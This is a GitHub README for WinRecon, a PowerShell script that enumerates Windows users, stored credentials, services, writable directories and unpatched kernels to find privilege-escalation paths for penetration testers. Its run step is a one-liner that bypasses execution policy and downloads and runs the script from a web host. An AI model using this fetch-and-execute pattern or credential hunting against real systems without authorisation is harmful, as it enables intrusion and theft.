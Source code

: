 # ![WinRecon Logo](assets/winrecon.png)

## WinRecon

**WinRecon** is a PowerShell-based enumeration script designed to gather essential system information needed to identify potential privilege escalation opportunities on Windows machines. It automates the process of collecting valuable data to assist penetration testers, red teams, and system administrators in finding weaknesses that could lead to elevation of privileges.

---

## Features

### User and Group Enumeration
- **Local User Accounts**: Lists all local user accounts and highlights administrative accounts.
- **Group Memberships**: Displays detailed information about group memberships.
- **Domain Information**: Extracts information about domain users and domain controllers when applicable.

### Credential Discovery
- **Stored Credentials**: Identifies credentials stored in the system, such as in the registry or configuration files.
- **Password Policies**: Retrieves domain and local password policies to highlight weak configurations.

### Service and Task Enumeration
- **Services**: Lists services with details like privileges, paths, and configurations.
- **Scheduled Tasks**: Enumerates scheduled tasks to identify potential execution vectors.

### Privilege Escalation Insights
- **System Information**: Extracts OS details, patches, and configurations.
- **Misconfigurations**: Identifies potential misconfigurations, such as writable directories or vulnerable registry keys.
- **Kernel Exploits**: Checks for unpatched kernel vulnerabilities based on OS version.

### File and Directory Insights
- **Sensitive Files**: Searches for files containing potential credentials or sensitive data.
- **Writable Directories**: Lists directories writable by non-privileged users.

### Network Configuration
- **Network Interfaces**: Displays information about active network interfaces.
- **Listening Ports**: Identifies listening ports and associated services.

### Logging and Reporting
- **Comprehensive Logging**: Logs findings to a structured and easily readable format.
- **Export Options**: Provides options to save results for later analysis.

---

## How to Run

1. **For full AD options you will need to download PsLoggedon.exe and PowerView.ps1**.
2. Run the script with the following command:
   ```powershell
   powershell -ep Bypass -Command 'IEX(IWR http://<LocalHost>/winrecon.ps1 -UseBasicParsing)'
   ```



